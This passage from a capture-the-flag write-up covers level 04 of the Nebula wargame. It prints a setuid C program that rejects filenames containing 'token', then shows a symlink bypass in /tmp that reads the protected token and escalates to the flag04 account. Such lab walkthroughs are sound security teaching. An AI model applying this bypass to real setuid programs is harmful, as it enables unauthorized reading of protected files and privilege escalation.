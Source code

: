 Indeed the `/tmp` folder is mounted as a `tmpfs` in RAM with the `nosuid` flag set such that `suid` has no effect there.


## Level 04:

The source code of `flag04` reads and prints a file after it makes sure that the filename does not contain "token" which is probably exactly the file we need to open. For those that are not that familiar with C code, the last write has a 1 as file descriptor argument which references the file descriptor of `stdout`, thus the write is basically a print.

```C
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>
#include <fcntl.h>

int main(int argc, char **argv, char **envp)
{
  char buf[1024];
  int fd, rc;

  if(argc == 1) {
      printf("%s [file to read]\n", argv[0]);
      exit(EXIT_FAILURE);
  }

  if(strstr(argv[1], "token") != NULL) {
      printf("You may not access '%s'\n", argv[1]);
      exit(EXIT_FAILURE);
  }

  fd = open(argv[1], O_RDONLY);
  if(fd == -1) {
      err(EXIT_FAILURE, "Unable to open %s", argv[1]);
  }

  rc = read(fd, buf, sizeof(buf));

  if(rc == -1) {
      err(EXIT_FAILURE, "Unable to read fd %d", fd);
  }

  write(1, buf, rc);
}
```

This smells like a problem that is solvable by symlink:

```bash
level04@nebula:/home/flag04$ cat token
cat: token: Permission denied
level04@nebula:/home/flag04$ ./flag04 token
You may not access 'token'
level04@nebula:/home/flag04$ ln -s /home/flag04/token /tmp/link
level04@nebula:/home/flag04$ ./flag04 /tmp/link
06508b5e-8909-4f38-b630-fdb148a848a2
level04@nebula:/home/flag04$ su flag04
Password:
sh-4.2$ getflag
You have successfully executed getflag on a target account
```
